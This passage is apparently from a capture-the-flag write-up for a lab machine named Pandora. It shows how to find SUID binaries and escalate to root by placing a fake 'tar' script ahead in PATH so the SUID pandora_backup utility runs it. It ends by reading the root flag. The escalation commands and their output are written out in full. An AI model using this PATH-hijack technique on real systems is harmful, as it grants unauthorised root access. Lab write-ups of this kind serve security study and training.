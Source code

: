 First take a look at the files with suid permissions, here we see that there is a pandora_backup as a binary file

``` bash
matt@pandora:~ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
That `pandora_backup` looks intersting, I downloaded it to my machine and did some testing, and it looks like it uses the tar command to compress files. let's create a poisoned tar file and ran the command to gain root access.

inject matt's home path into an environment variable, and run the pandora_backup file

``` bash
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ ls
linpeas.sh  tar  user.txt
matt@pandora:~$ cat tar
/bin/bash
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
root@pandora:~# cat /root/root.txt
```

We are in as root! and we've got the root flag.

